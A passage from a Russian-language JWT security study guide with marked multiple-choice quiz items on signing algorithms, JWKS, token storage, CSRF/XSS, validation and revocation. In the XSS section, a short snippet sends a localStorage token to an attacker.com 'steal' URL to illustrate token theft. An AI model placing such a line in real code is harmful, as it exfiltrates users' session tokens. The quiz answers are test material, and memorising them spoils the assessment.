> - [ ] Для микросервисов рекомендуется `ES256` как единственный асимметричный алгоритм, поддерживаемый стандартом. | RS256/RS384/RS512 и PS256 тоже асимметричные; ES256 предпочитают для IoT и mobile из-за малых ключей. ❌ ПОСЛЕДСТВИЕ: команда переходит «только на ES256» и ломает интеграцию с legacy-IdP, который выпускает только RS256 — клиенты не могут логиниться, инцидент с откатом релиза.
> - [ ] Для микросервисов рекомендуется `PS256` — обязательный алгоритм по RFC 7518. | RFC 7518 §3.1: Required — `HS256`, Recommended — `RS256`, Optional — `PS256`. ❌ ПОСЛЕДСТВИЕ: разработчик настраивает Spring Resource Server только на PS256 — токены от Keycloak (RS256) отвергаются, вся платформа возвращает 401 после деплоя.

---

## Q7. В чём разница между HS256 и RS256?



| Критерий | HS256 | RS256 |
|----------|-------|-------|
| **Тип** | Симметричный HMAC | Асимметричный RSA |
| **Ключ** | Один секрет у всех сторон | Приватный (у AS) + публичный (у RS) |
| **Масштабируемость** | Плохая — секрет надо распространять | Хорошая — публичный ключ открытый |
| **Риск компрометации** | Высокий — любой с секретом может выдавать токены | Низкий — приватный ключ только у AS |
| **Производительность** | Быстрее | Медленнее (RSA вычислительно дорог) |
| **Применение** | Монолит, закрытые системы | OAuth2/OIDC, распределённые системы |

**Вывод:** в микросервисной архитектуре с несколькими Resource Server предпочтительнее **RS256** — каждый сервис получает публичный ключ через `/.well-known/jwks.json` и верифицирует независимо.

> [!mcq]
> - [ ] `HS256` использует пару приватный/публичный ключ; AS подписывает приватным, RS верифицирует публичным. | Это описание `RS256`. `HS256` — симметричный HMAC с общим секретом. ❌ ПОСЛЕДСТВИЕ: команда «настраивает HS256 как RS256», публикует JWKS с HMAC-секретом — секрет утекает наружу, любой может подписывать токены.
> - [x] `HS256` использует один общий секрет (симметричный HMAC), а `RS256` — пару RSA-ключей (асимметричный); `RS256` предпочтительнее в микросервисах, так как публичный ключ распространяется через JWKS без риска компрометации. | Ключевое различие в модели угроз: HS256 требует безопасного распределения секрета всем сторонам, RS256 — только публичного ключа. Только владелец приватного ключа может подписывать. ✓ ПРИМЕНЯТЬ: Spring Authorization Server по умолчанию выпускает RS256 и публикует JWKS на `/oauth2/jwks`. 📋 ПРАВИЛО: «секрет делишь — компрометируешь все, ключ публикуешь — только владелец подписывает». 🔗 См. Q6, Q25.
> - [ ] HS256 vs RS256: HS256 предпочтительнее в микросервисах из-за меньших накладных расходов на RSA-операции. | RS256 действительно медленнее (~10× по CPU на verify), но в реальности это микросекунды. ❌ ПОСЛЕДСТВИЕ: команда выбирает HS256 «для скорости», секрет копируется в 12 микросервисов, утечка через misconfigured ConfigMap в Kubernetes — массовая подделка токенов.
> - [ ] HS256 и RS256 равнозначны по безопасности; выбор определяется только производительностью. | Модели угроз фундаментально разные: HS256 — shared secret, RS256 — асимметричная подпись. ❌ ПОСЛЕДСТВИЕ: архитектор «не видит разницы», микросервисы делятся секретом, скомпрометированный микросервис логирования с RCE даёт атакующему ключ для admin-токенов.

---

## Q8. Что такое ES256 и когда его предпочесть?

**ES256** — алгоритм на основе ECDSA (Elliptic Curve Digital Signature Algorithm) с кривой P-256.

Преимущества перед RS256:
- **Меньший размер ключа:** 256-битный EC ключ эквивалентен 3072-битному RSA по безопасности
- **Быстрее** при генерации подписи (медленнее при верификации)
- **Меньший размер подписи** в токене

Применение — высоконагруженные системы, мобильные приложения, IoT. OpenID Connect рекомендует ES256 или RS256.

```java
// Генерация EC ключевой пары (Java)
KeyPairGenerator keyGen = KeyPairGenerator.getInstance("EC");
keyGen.initialize(new ECGenParameterSpec("secp256r1"));
KeyPair keyPair = keyGen.generateKeyPair();
```

> [!mcq]
> - [ ] `ES256` — симметричный алгоритм на основе AES-256 с общим секретом. | ES256 — асимметричный ECDSA с кривой P-256, не AES. ❌ ПОСЛЕДСТВИЕ: разработчик «настраивает AES-секрет», JWKS публикует октет — RS отвергает все токены, вся аутентификация ломается на проде.
> - [x] `ES256` — асимметричный алгоритм на основе ECDSA с кривой P-256, предпочтителен при ограниченных ресурсах: 256-битный EC ключ эквивалентен по стойкости 3072-битному RSA. | Эллиптическая криптография даёт сравнимую стойкость при ~10× меньшем размере ключа и подписи, что критично для IoT, mobile, embedded. ✓ ПРИМЕНЯТЬ: Apple Sign-in с Apple использует ES256 для ID Token из-за компактности и скорости на iPhone. 📋 ПРАВИЛО: «ES256 — короткий ключ, та же стойкость, идеален для mobile/IoT». 🔗 См. Q6, Q35.
> - [ ] `ES256` — асимметричный алгоритм на основе RSA-PSS с маскированием. | RSA-PSS — это `PS256`, не ES256. ❌ ПОСЛЕДСТВИЕ: команда настраивает «ES256 = PS256», публикует RSA-ключ как EC — Spring `NimbusJwtDecoder` бросает `JwtValidationException` на каждом запросе, downtime.
> - [ ] `ES256` — алгоритм на Edwards-кривых (Ed25519). | Edwards-кривые — это `EdDSA`, ES256 использует NIST P-256 (secp256r1). ❌ ПОСЛЕДСТВИЕ: команда генерирует Ed25519-ключ для «ES256» через `keytool`, IdP сохраняет — на верификации mismatch curve, токены все RS-ы отвергают, аут падает.

---

## Q9. (!) В чём разница между JWT, JWS и JWE?

Эти термины часто путают. Все три — часть семейства **JOSE** (JSON Object Signing and Encryption):

| Стандарт | Расшифровка | Суть |
|----------|-------------|------|
| **JWT** | JSON Web Token | Формат токена (RFC 7519) — может быть JWS или JWE |
| **JWS** | JSON Web Signature | JWT с **подписью** payload (RFC 7515) — целостность, но не конфиденциальность |
| **JWE** | JSON Web Encryption | JWT с **зашифрованным** payload (RFC 7516) — конфиденциальность + целостность |



**На практике:** когда говорят «JWT», почти всегда имеют в виду **JWS** — подписанный токен. JWE используется реже — только если нужно скрыть сам payload от третьих сторон (например, от мобильного клиента).

> [!mcq]
> - [ ] JWT — формат; `JWS` — зашифрованный JWT (RFC 7516); `JWE` — подписанный JWT (RFC 7515). | Аббревиатуры перепутаны местами. ❌ ПОСЛЕДСТВИЕ: команда «применяет JWS для шифрования PII», но это просто Base64URL-кодирование — PII видно в логах CDN, инцидент GDPR с уведомлением регулятора.
> - [ ] JWT — формат; `JWS` — подписанный (RFC 7515); `JWE` — зашифрованный (RFC 7516); JWE обязательно содержит подпись внутри. | JWE сам по себе даёт integrity через AEAD (auth tag), внутренняя подпись — опциональный Nested JWT. ❌ ПОСЛЕДСТВИЕ: разработчик не доверяет JWE без подписи, добавляет HMAC сверху ciphertext — encrypt-then-MAC через свой код, ошибка в порядке операций даёт padding-oracle уязвимость.
> - [x] `JWT` — общий формат токена; `JWS` — JWT с подписью (integrity + authenticity, но payload прозрачен); `JWE` — JWT с зашифрованным payload (confidentiality + integrity через AEAD); в обиходе «JWT» почти всегда означает JWS. | Семейство JOSE: 99% случаев в OAuth2/OIDC — это JWS, JWE применяется когда нужно скрыть содержимое от промежуточных узлов или хранителя. ✓ ПРИМЕНЯТЬ: открытый банковский FAPI требует Nested JWT (JWS+JWE) для request objects с реквизитами счетов. 📋 ПРАВИЛО: «JWS = подпись, JWE = шифрование, JWT = одно из двух». 🔗 См. Q5, Q41.
> - [ ] JWT, JWS, JWE — на практике JWE используется чаще JWS в современных системах. | JWS доминирует, JWE требует key management и сложен. ❌ ПОСЛЕДСТВИЕ: команда внедряет JWE «как современный стандарт», но не реализует rotation ключей шифрования — старые токены не расшифровываются после ключа-rotate, активные сессии падают.

---

## Q10. Что такое JWKS и для чего используется?

**JWKS** (JSON Web Key Set, RFC 7517) — стандартный формат для публикации набора публичных ключей в виде JSON. Authorization Server публикует JWKS endpoint:

```
GET /.well-known/jwks.json
```

Пример ответа:
```json
{
  "keys": [
    {
      "kty": "RSA",
      "use": "sig",
      "kid": "key-id-2024",
      "n": "0vx7agoebGcQSuuPiLJXZpt...",
      "e": "AQAB",
      "alg": "RS256"
    }
  ]
}
```

**Поля ключа:**
- `kty` — тип ключа (RSA, EC, oct)
- `use` — назначение (`sig` — подпись, `enc` — шифрование)
- `kid` — Key ID (совпадает с `kid` в JWT header)
- `n`, `e` — компоненты RSA публичного ключа

Resource Server кэширует JWKS и периодически обновляет при ротации ключей.

> [!mcq]
> - [ ] `JWKS` — это список отозванных JWT, публикуемый AS по пути `/.well-known/revoked-tokens`. | JWKS — JSON Web Key Set (RFC 7517) с публичными ключами, а не списком отзыва. ❌ ПОСЛЕДСТВИЕ: команда строит revocation на «JWKS-полинге», на проде RS падает с `org.springframework.security.oauth2.jwt.JwtException: missing key` — все запросы 500.
> - [ ] JWKS — публичные ключи по `/.well-known/jwks.json`; каждый ключ содержит `kty`, `use`, `kid` и приватную часть для верификации. | Приватная часть никогда не публикуется в JWKS — только `n`, `e` (RSA) или `x`, `y` (EC). ❌ ПОСЛЕДСТВИЕ: разработчик ошибочно копирует приватный ключ в JWKS endpoint — атакующий скачивает private key, выпускает admin-токены, полный takeover.
> - [ ] JWKS публикуется на `/.well-known/jwks.json`; RS не кэширует ключи и запрашивает JWKS при каждом JWT. | RS обязан кэшировать — иначе AS перегружается. ❌ ПОСЛЕДСТВИЕ: на 10K RPS RS делает 10K запросов в секунду к AS, JWKS endpoint падает под нагрузкой, циклическая деградация всей платформы.
> - [x] `JWKS` — JSON-формат публикации публичных ключей по `/.well-known/jwks.json`; RS кэширует ключи и обновляет кэш при встрече незнакомого `kid`, что поддерживает ротацию ключей без downtime. | Корректный механизм: массив `keys` с `kty`/`use`/`kid`/`n`/`e`; `kid` в JWT header указывает нужный ключ; lazy refresh при unknown kid. ✓ ПРИМЕНЯТЬ: Spring `NimbusJwtDecoder.withJwkSetUri()` кэширует 5 минут по умолчанию, обновляет на miss. 📋 ПРАВИЛО: «kid связывает токен с ключом, кэш — с производительностью». 🔗 См. Q11, Q43.

---

## Q11. Как клиент проверяет подпись с помощью JWKS?

Процесс валидации JWT с использованием JWKS:



В Spring Security это автоматизировано через `NimbusJwtDecoder`:

```java
@Bean
public JwtDecoder jwtDecoder() {
    return NimbusJwtDecoder
        .withJwkSetUri("https://auth.example.com/.well-known/jwks.json")
        .build();
}
```

> [!mcq]
> - [ ] RS выбирает публичный ключ по полю `alg` в header. | `alg` указывает алгоритм, не конкретный ключ. ❌ ПОСЛЕДСТВИЕ: при 2 ключах RS256 в JWKS RS не различает их и берёт первый — после ротации старые токены отвергаются, активные сессии падают.
> - [ ] RS выбирает публичный ключ по полю `iss` в header. | `iss` — claim в payload, идентифицирует AS, не ключ. ❌ ПОСЛЕДСТВИЕ: при двух AS с одинаковым `iss` RS путает ключи — токены AS-A проверяются ключом AS-B, бывают ложные 401, бывают ложные 200.
> - [x] RS извлекает идентификатор ключа из поля `kid` в JWT header, ищет его в JWKS-кэше (при отсутствии — обращается к JWKS endpoint) и верифицирует подпись. | Корректный flow: `kid` (Key ID) в header однозначно указывает, каким ключом из JWKS подписан токен; lazy refresh при unknown kid обеспечивает hot rotation без downtime. ✓ ПРИМЕНЯТЬ: Spring `NimbusJwtDecoder` использует `JWKSelector.select(jwsHeader.getKeyID())` под капотом. 📋 ПРАВИЛО: «kid в header → ключ в JWKS → подпись валидна». 🔗 См. Q10, Q43.
> - [ ] RS выбирает публичный ключ по полю `jti` в header. | `jti` — claim в payload, уникальный идентификатор токена для blacklist, не ключа. ❌ ПОСЛЕДСТВИЕ: разработчик пытается «загрузить ключ по jti» — JWKS не находит, токены массово отвергаются, бизнес-логика на refresh падает в цикл 401-401.

---

## Q12. (!) В чём разница между Access Token и Refresh Token?

| Критерий | Access Token | Refresh Token |
|----------|-------------|---------------|
| **Назначение** | Доступ к защищённым ресурсам | Получение нового Access Token |
| **Время жизни** | Короткое (5–60 минут) | Длинное (дни, недели) |
| **Хранение** | Memory / короткоживущая cookie | httpOnly Secure cookie / secure storage |
| **Где используется** | В каждом запросе к API (Authorization header) | Только при обращении к Token Endpoint |
| **Тип** | Обычно JWT (stateless) | Обычно opaque (непрозрачный) |
| **Отзыв** | Проблематичен (stateless) | Хранится в БД, легко отзывается |



> [!mcq]
> - [ ] Access Token и Refresh Token идентичны по назначению, но различаются временем жизни: Access Token живёт дни, Refresh Token — минуты; оба передаются в Authorization header. | Назначение у них принципиально разное: Access Token — для доступа к ресурсам (Resource Server), Refresh Token — для получения нового Access Token (Authorization Server). Время жизни описано с ошибкой.
> - [ ] Access Token (долгоживущий, дни-недели) используется для доступа к ресурсам, Refresh Token (короткоживущий, минуты) — для получения нового Access Token при каждом запросе. | Время жизни перепутано: Access Token короткий (5-60 мин), Refresh Token долгий (дни-недели). Именно такое соотношение и создаёт архитектурный смысл разделения.
> - [x] Access Token (короткоживущий, 5-60 мин) используется для доступа к ресурсам, Refresh Token (долгоживущий, дни-недели) — для получения нового Access Token; RT обычно opaque и хранится в httpOnly cookie. | Верное соотношение. Короткий AT минимизирует окно компрометации, долгий RT обеспечивает UX без повторных логинов. RT хранится в БД AS с возможностью мгновенного отзыва.
> - [ ] Access Token (короткоживущий, 5-60 мин) используется для доступа к ресурсам, Refresh Token (долгоживущий, дни-недели) — для получения нового Access Token; AT обычно opaque, а RT всегда JWT. | Всё наоборот: Access Token чаще JWT (stateless верификация на RS), а Refresh Token чаще opaque (хранится в БД AS для возможности мгновенного отзыва). Делать RT через JWT затрудняет отзыв.

---

## Q13. (!) Что такое Refresh Token Rotation?

**Refresh Token Rotation** — механизм безопасности, при котором каждый раз при использовании Refresh Token выдаётся **новый** Refresh Token, а старый аннулируется.

**Зачем:** если злоумышленник похитил Refresh Token, то при его использовании легитимный клиент получит ошибку (токен уже использован), и система может автоматически отозвать всю сессию.



**Реализация в Spring Authorization Server:**
```java
// application.yml
spring:
  security:
    oauth2:
      authorizationserver:
        token:
          refresh-token-time-to-live: "7d"
          reuse-refresh-tokens: false  # включает Rotation
```

> [!mcq]
> - [x] При использовании Refresh Token Rotation каждый Refresh Token одноразовый: после использования он аннулируется и выдаётся новый; повторное использование старого RT сигнализирует о краже и позволяет отозвать всю семью токенов. | Ключевой механизм безопасности: RT становятся одноразовыми цепочками. Если злоумышленник использовал RT, легитимный клиент получит ошибку при следующей попытке, что триггерит отзыв всей сессии.
> - [ ] При использовании Refresh Token Rotation каждый Refresh Token многоразовый, но имеет sliding expiration: каждое использование сдвигает срок истечения на фиксированный период вперёд без выдачи нового токена. | Sliding expiration — отдельная концепция, не тождественная Rotation. Rotation подразумевает замену токена, а не просто сдвиг срока. Многоразовость RT без детекции повторного использования не решает задачу обнаружения кражи.
> - [ ] При использовании Refresh Token Rotation каждый Refresh Token одноразовый; повторное использование старого RT автоматически блокирует только тот конкретный RT, но не всю сессию пользователя. | Правильная реализация Rotation при обнаружении повторного использования должна отзывать всю «семью» токенов (token family) для противодействия сценариям, где злоумышленник уже получил новый RT.
> - [ ] При использовании Refresh Token Rotation каждый Refresh Token одноразовый; после использования он аннулируется, но новый RT не выдаётся — клиент должен повторно аутентифицироваться при каждом истечении Access Token. | Суть Rotation — выдача нового RT при каждом использовании старого. Если новый RT не выдаётся, это не Rotation, а просто одноразовость — пользователю придётся логиниться при каждом истечении AT.

---

## Q14. Где хранить Access Token и Refresh Token на клиенте?

**Access Token:**
- **In-memory** (JS переменная, React state) — защищён от XSS, теряется при перезагрузке
- **sessionStorage** — приемлемо для AT, уязвимо к XSS в той же вкладке

**Refresh Token:**
- **httpOnly Secure SameSite=Strict cookie** — лучший вариант: JS не имеет доступа (защита от XSS), SameSite защищает от CSRF
- Никогда в localStorage — уязвимо к XSS

**Рекомендуемая стратегия:**
```
Access Token → in-memory (короткоживущий)
Refresh Token → httpOnly Secure cookie
```

При перезагрузке страницы клиент отправляет cookie с RT → получает новый AT в памяти.

> [!mcq]
> - [ ] Оптимальная стратегия хранения токенов: Access Token в `localStorage` (переживает перезагрузки), Refresh Token в `sessionStorage` (изолирован от других вкладок). | localStorage уязвим к XSS — любой скрипт может прочитать токен. sessionStorage тоже уязвим в той же вкладке, а RT должен быть максимально защищён. Рекомендуется обратная стратегия с httpOnly cookie для RT.
> - [x] Оптимальная стратегия хранения токенов: Access Token в памяти (переменной JS), Refresh Token в `httpOnly Secure SameSite=Strict cookie` — JS не имеет доступа к RT, AT теряется при перезагрузке и обновляется через RT. | Верная стратегия. AT в памяти недоступен XSS, но теряется при перезагрузке (минимальный срок жизни = минимум атак). RT в httpOnly cookie защищён от XSS, SameSite=Strict блокирует CSRF при отправке только в `/token/refresh`.
> - [ ] Оптимальная стратегия хранения токенов: Access Token в `IndexedDB` с шифрованием, Refresh Token в `WebSQL` — изолированные хранилища защищают от XSS. | IndexedDB и WebSQL доступны из JS, поэтому уязвимы к XSS так же, как localStorage. Шифрование внутри JS требует ключа в том же runtime, что не даёт реальной защиты. WebSQL к тому же deprecated.
> - [ ] Оптимальная стратегия хранения токенов: Access Token в `document.cookie` (без httpOnly для JS-доступа), Refresh Token в `localStorage` для простоты обновления. | Cookie без httpOnly = уязвимость к XSS (JS читает). localStorage тоже уязвим к XSS. Такая схема оставляет оба токена открытыми для украдения через любой внедрённый скрипт.

---

## Q15. (!) localStorage vs httpOnly cookie — где хранить JWT?

| Критерий | localStorage | httpOnly cookie |
|----------|-------------|----------------|
| **XSS уязвимость** | Высокая — JS имеет полный доступ | Низкая — JS не может прочитать |
| **CSRF уязвимость** | Нет — не отправляется автоматически | Есть — браузер добавляет автоматически |
| **Защита от CSRF** | Не нужна | Нужна (`SameSite`, CSRF-token) |
| **Доступность** | Все вкладки, сессии | Только через HTTP |
| **Persistence** | До очистки браузера | Контролируется `Max-Age`/`Expires` |

**Вывод:**
- `localStorage` — **не рекомендуется** для чувствительных токенов (любой XSS = кража токена)
- `httpOnly Secure SameSite=Strict cookie` — **предпочтительнее** для Refresh Token
- Access Token — **in-memory** + автообновление через RT

**Cookie-атрибуты для JWT:**
```
Set-Cookie: refresh_token=<RT>; HttpOnly; Secure; SameSite=Strict; Path=/token/refresh; Max-Age=2592000
```

> [!mcq]
> - [ ] localStorage предпочтительнее httpOnly cookie для JWT, потому что JavaScript-доступ упрощает обновление токена и localStorage защищён от CSRF-атак в отличие от cookie. | localStorage действительно не уязвим к CSRF, но уязвим к XSS — любой скрипт на странице может прочитать токен. httpOnly cookie недоступна из JS, что делает её защищённой от XSS. Верный вывод противоположный.
> - [x] httpOnly Secure cookie предпочтительнее localStorage для хранения Refresh Token: JS не имеет доступа к cookie (защита от XSS), но требует защиты от CSRF через SameSite=Strict; Access Token лучше держать in-memory. | Рекомендуемая стратегия: RT в httpOnly Secure SameSite=Strict cookie, AT в памяти (React state / переменная). SameSite=Strict блокирует отправку cookie в кросс-сайтовых запросах, нейтрализуя CSRF без дополнительных токенов.
> - [ ] httpOnly Secure cookie предпочтительнее localStorage для хранения Refresh Token: JS не имеет доступа к cookie (защита от XSS); SameSite=Strict не нужен, так как httpOnly сам по себе защищает от CSRF. | httpOnly защищает от XSS (JS не читает), но не от CSRF (браузер автоматически отправляет cookie в кросс-сайтовых запросах). Для CSRF-защиты необходимы SameSite=Strict или CSRF-токены — это разные векторы атаки.
> - [ ] httpOnly Secure cookie предпочтительнее localStorage для Refresh Token, localStorage предпочтительнее httpOnly cookie для Access Token; оба требуют защиты от CSRF через SameSite=Strict. | Access Token лучше хранить in-memory, а не в localStorage (уязвимость к XSS). Идеальная стратегия: RT в httpOnly cookie, AT в памяти (теряется при перезагрузке и обновляется через RT).

---

## Q16. Как JWT связан с CSRF-атаками?

**CSRF** (Cross-Site Request Forgery) — атака, при которой вредоносный сайт заставляет браузер жертвы отправить запрос к целевому сайту с автоматически прикреплёнными cookie.

**JWT в Authorization header** → **не уязвим** к CSRF:
- Браузер не добавляет кастомные заголовки автоматически
- Только cookie автоматически добавляются к кросс-сайтовым запросам

**JWT в cookie** → **уязвим** к CSRF без дополнительной защиты:

Защита при использовании cookie:
1. **`SameSite=Strict`** — cookie не отправляются в кросс-сайтовых запросах (лучший вариант)
2. **`SameSite=Lax`** — не отправляются в POST, PUT, DELETE с других сайтов
3. **Double Submit Cookie** — дополнительный CSRF-token в cookie и заголовке
4. **Synchronizer Token Pattern** — классическая защита

> [!mcq]
> - [x] JWT в `Authorization` header не уязвим к CSRF: браузер не добавляет кастомные заголовки автоматически в кросс-сайтовых запросах, поэтому вредоносный сайт не может подставить чужой токен. | Верно. CSRF работает за счёт автоматической подстановки cookie/Basic-Auth, но браузер никогда не копирует Authorization header между сайтами. Поэтому схема «Authorization: Bearer JWT» CSRF-устойчива by design.
> - [ ] JWT в `Authorization` header уязвим к CSRF так же, как и cookie: браузер автоматически добавляет header к кросс-сайтовым запросам аналогично cookie. | Это неверно фундаментально: браузер никогда не добавляет произвольные заголовки в кросс-сайтовые запросы. Именно cookie — особый случай автоматической подстановки, Authorization header — нет.
> - [ ] JWT в `Authorization` header уязвим к CSRF только в POST-запросах: GET-запросы защищены CORS по умолчанию. | CSRF-устойчивость Authorization header не зависит от метода запроса. Браузер не добавляет Authorization header ни в GET, ни в POST, ни в любой другой метод. CORS — отдельный механизм, не связанный с CSRF этим способом.
> - [ ] JWT в `Authorization` header уязвим к CSRF, если Resource Server использует `SameSite=None` в cookie-политике. | SameSite — это атрибут cookie, не имеет отношения к Authorization header. Настройка cookie-политики никак не влияет на поведение браузера с Authorization header в кросс-сайтовых запросах.

---

## Q17. Как JWT связан с XSS-атаками?

**XSS** (Cross-Site Scripting) — инъекция вредоносного JavaScript на страницу.

**Если JWT хранится в localStorage:**
```javascript
// Злоумышленник через XSS может:
const token = localStorage.getItem('jwt_token');
fetch('https://attacker.com/steal?token=' + token);
```

**Если JWT хранится в httpOnly cookie:**
```javascript
// XSS не может прочитать:
document.cookie; // не покажет httpOnly cookies
```

**Митигация XSS:**
- Правильный `Content-Security-Policy` (CSP)
- Escaping/sanitization пользовательского ввода
- `httpOnly` cookie для токенов
- Минимальный срок жизни Access Token

> [!mcq]
> - [ ] При XSS-атаке JWT в `httpOnly` cookie доступен злоумышленнику через `document.cookie`, поэтому httpOnly не защищает от XSS. | httpOnly cookie не видны в `document.cookie` — это и есть защита от XSS. Именно флаг `httpOnly` исключает cookie из DOM API, поэтому скрипт не может их прочитать.
> - [x] При XSS-атаке JWT в `localStorage` доступен злоумышленнику через `localStorage.getItem()`, а JWT в `httpOnly` cookie недоступен: браузер не отдаёт httpOnly cookie в JS API. | Верно. Ключевое различие: localStorage живёт в JS-пространстве (любой код читает), httpOnly cookie живёт в HTTP-пространстве (JS к ней не имеет доступа, браузер автоматически добавляет к запросам). XSS → краденый localStorage, но не httpOnly cookie.
> - [ ] При XSS-атаке JWT в `sessionStorage` защищён от злоумышленника, так как sessionStorage изолирован на уровне вкладки и недоступен инжектированному скрипту. | Изоляция sessionStorage на уровне вкладки не защищает от XSS в той же вкладке: злоумышленный скрипт исполняется в контексте этой же вкладки и имеет полный доступ к `sessionStorage.getItem()`.
> - [ ] При XSS-атаке JWT в `memory` (JS-переменная) доступен злоумышленнику, так как инжектированный скрипт имеет полный доступ к JS-замыканиям и глобальным переменным других скриптов. | JS-замыкания других модулей обычно не доступны извне, а глобальные переменные действительно уязвимы. На практике JWT в memory сложнее достать, чем из localStorage, и токен теряется при перезагрузке — это снижает время окна атаки.

---

## Q18. (!) Как правильно валидировать JWT на сервере?

Полный чеклист валидации JWT:

```java
// Spring Security выполняет это автоматически через NimbusJwtDecoder
// Для ручной валидации с JJWT:
Jwts.parserBuilder()
    .setSigningKey(publicKey)
    .requireIssuer("https://auth.example.com")
    .requireAudience("my-api")
    .build()
    .parseClaimsJws(token);
```

**Обязательные проверки:**
1. **Подпись** — верифицировать с известным ключом (не из самого токена!)
2. **`exp`** — токен не истёк
3. **`nbf`** — токен уже активен (если присутствует)
4. **`iss`** — Issuer совпадает с ожидаемым
5. **`aud`** — Audience включает данный Resource Server
6. **Алгоритм** — соответствует ожидаемому (whitelist алгоритмов!)

**Критическая ошибка:** доверять `alg` из заголовка токена без whitelist-а.

> [!mcq]
> - [ ] При валидации JWT сервер должен: проверить подпись, exp, iss; проверку aud можно пропустить, если сервис не требует аудитории — это опциональная оптимизация. | Пропуск проверки aud — это уязвимость, а не оптимизация. Токен, выданный для сервиса A, может быть принят сервисом B, что создаёт вектор для Token Substitution Attack.
> - [ ] При валидации JWT сервер должен проверить подпись, exp, iss и aud; алгоритм подписи берётся из заголовка токена и принимается автоматически без дополнительной конфигурации. | Принимать алгоритм из заголовка токена без whitelist — критическая уязвимость (Algorithm Confusion Attack, alg:none attack). Допустимые алгоритмы должны быть жёстко заданы на сервере.
> - [ ] При валидации JWT сервер должен: проверить подпись с ключом из заголовка kid, проверить exp и iss; проверка nbf избыточна на практике. | nbf (Not Before) — не избыточен при replay-атаках и pre-issued токенах. Кроме того, ключ нельзя брать из kid без его верификации через whitelist — это вектор для kid injection атак.
> - [x] При валидации JWT сервер обязан проверить: подпись (с ключом из конфигурации, не из токена), exp, nbf, iss и aud; алгоритм должен быть в whitelist на стороне сервера, а не браться из заголовка. | Полный и корректный чеклист. Ключевой момент — whitelist алгоритмов на сервере: это защита от alg:none и Algorithm Confusion Attack. Доверие к alg из токена — одна из самых частых уязвимостей реализаций JWT.

---

## Q19. (!) Проблема отзыва JWT — как её решать?

`JWT` по природе **stateless** — сервер не хранит состояние токенов. Это делает немедленный отзыв сложным.

**Проблема:** если пользователь разлогинился или его права изменились — старый JWT продолжает работать до истечения `exp`.

**Решения:**

| Подход | Описание | Trade-off |
|--------|----------|-----------|
| **Короткий TTL** | AT на 5-15 минут | Не немедленно, но мала возможность злоупотребления |
| **Token Blacklist** | Хранить `jti` отозванных токенов в Redis | Теряется stateless-ность |
| **Версионирование** | Хранить `token_version` в БД, проверять каждый запрос | Теряется stateless-ность |
| **Short-lived AT + RT Rotation** | Быстро истекающий AT + немедленный отзыв RT | Лучший баланс |

```java
// Blacklist-проверка через Redis
@Component
public class JwtBlacklistFilter extends OncePerRequestFilter {
    private final RedisTemplate<String, String> redisTemplate;

    @Override
    protected void doFilterInternal(HttpServletRequest request,
                                    HttpServletResponse response,
                                    FilterChain chain) {
        String jti = extractJti(request);
        if (redisTemplate.hasKey("blacklist:" + jti)) {
            response.setStatus(HttpServletResponse.SC_UNAUTHORIZED);
            return;
        }
        chain.doFilter(request, response);
    }
}
```

**Рекомендация:** Access Token — 5-15 минут (stateless), Refresh Token — хранить в БД с возможностью отзыва.

> [!mcq]
> - [ ] JWT по природе stateless, что позволяет немедленно отзывать токены через удаление из локального кэша сервера без обращения к базе данных. | Stateless означает обратное: сервер не хранит состояние токенов и не может «удалить из кэша» то, чего нет. Именно stateless-природа делает немедленный отзыв JWT сложной задачей.
> - [x] JWT по природе stateless, поэтому немедленный отзыв затруднён; практические решения: короткий TTL (5-15 мин) для AT, Token Blacklist с jti в Redis, или версионирование token_version в БД — каждое решение жертвует частью stateless-свойства. | Верный анализ trade-off. Чистый stateless несовместим с немедленным отзывом. Лучший баланс: AT 5-15 мин (stateless), RT в БД с мгновенным отзывом и Rotation для детекции кражи.
> - [ ] JWT по природе stateless, поэтому немедленный отзыв затруднён; единственное правильное решение — использовать Token Blacklist в Redis, что полностью решает проблему без потери других преимуществ JWT. | Blacklist решает задачу отзыва, но это не единственное решение и не бесплатное: добавляется latency (Redis lookup на каждый запрос), теряется stateless-ность. Для большинства систем достаточно короткого TTL + отзыва RT.
> - [ ] JWT по природе stateless, поэтому немедленный отзыв затруднён; стандартное решение — JWE (шифрование payload), которое позволяет инвалидировать токены путём смены ключа шифрования. | JWE решает задачу конфиденциальности payload, а не отзыва токенов. Смена ключа шифрования инвалидирует все токены сразу (DoS для пользователей), что не является управляемым отзывом.

---

## Q20. Что такое Token Introspection?

**Token Introspection** (RFC 7662) — механизм, при котором Resource Server запрашивает Authorization Server для проверки валидности токена в реальном времени.



**Когда использовать вместо JWT:**
- Opaque tokens (непрозрачные) — нельзя декодировать без AS
- Требуется немедленный отзыв без ожидания истечения `exp`
- Высокие security-требования (финансы, медицина)

**Trade-off:** каждый запрос добавляет latency (запрос к AS). Решение — кэшировать результат на короткое время.

> [!mcq]
> - [ ] Token Introspection (RFC 7662) — механизм, при котором клиент запрашивает Resource Server для проверки валидности своего токена перед отправкой запроса. | Направление запроса обратное: именно Resource Server обращается к Authorization Server через introspection endpoint, а не клиент к RS. Клиент в этом протоколе не участвует.
> - [x] Token Introspection (RFC 7662) — механизм, при котором Resource Server делает POST-запрос к `/introspect` endpoint на Authorization Server для проверки валидности токена в реальном времени. | Верно. AS возвращает `{"active": true/false, ...}` с актуальными claims. Это позволяет мгновенный отзыв (stateful), но добавляет latency. Применяется в основном для opaque-токенов, где RS не может валидировать локально.
> - [ ] Token Introspection (RFC 7662) — механизм, при котором Authorization Server делает GET-запрос к `/introspect` endpoint на Resource Server для проверки использования токена. | AS не опрашивает RS — это не имеет смысла в OAuth2 модели. Introspection — это запрос от RS к AS (в направлении Resource Server → Authorization Server), типа POST, а не GET.
> - [ ] Token Introspection (RFC 7662) — механизм, при котором Resource Server декодирует JWT локально и проверяет `exp` без обращения к Authorization Server, что повышает производительность. | Это описание обычной JWT-валидации (offline, без introspection). Introspection — это именно сетевой вызов к AS, который стоит дороже по latency, но даёт актуальное состояние (учитывая отзыв).

---

## Q21. Как использовать claim `jti` для blacklisting?

`jti` (JWT ID) — уникальный идентификатор токена. Используется для:
- Предотвращения повторного использования токена (replay attack)
- Реализации blacklist отозванных токенов

```java
// Генерация JWT с jti
String jwtId = UUID.randomUUID().toString();

String token = Jwts.builder()
    .setId(jwtId)  // устанавливает jti
    .setSubject("user123")
    .setExpiration(new Date(System.currentTimeMillis() + 3600_000))
    .signWith(signingKey, SignatureAlgorithm.HS256)
    .compact();

// Отзыв токена — добавить jti в Redis с TTL = exp токена
public void revokeToken(String jti, long expiration) {
    long ttl = expiration - System.currentTimeMillis();
    redisTemplate.opsForValue().set(
        "revoked:" + jti, "true", ttl, TimeUnit.MILLISECONDS
    );
}

